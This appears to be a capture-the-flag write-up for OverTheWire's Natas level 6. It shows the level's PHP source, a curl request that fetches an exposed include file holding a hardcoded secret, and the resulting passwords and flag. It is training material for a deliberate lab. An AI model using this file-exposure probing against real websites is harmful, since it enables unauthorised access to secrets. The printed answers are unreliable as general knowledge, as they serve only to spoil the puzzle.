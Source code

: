 # Natas6

*	user: `natas6`
*	pass: `aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`
*	url: `http://natas6.natas.labs.overthewire.org`
*	flag: `7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

## Procedure

1.	By clicking on `View sourcecode` a PHP script is shown

		<?

		include "includes/secret.inc";

		if(array_key_exists("submit", $_POST)) {
				if($secret == $_POST['secret']) {
				print "Access granted. The password for natas7 is <censored>";
			} else {
				print "Wrong secret";
			}
		}
		?>

2.	The script says that `secret` parameter in the `POST` is checked
	against variable `$secret`. Furthermore, file `includes/secret.inc`
	is imported. Let's see what it contains

		$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
		<?
		$secret = "FOEIUWGHFEEUHOFUOIU";
		?>

3.	Go back to the home page and try to provide the secret
	`FOEIUWGHFEEUHOFUOIU`. Bingo!

		Access granted. The password for natas7 is
		7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
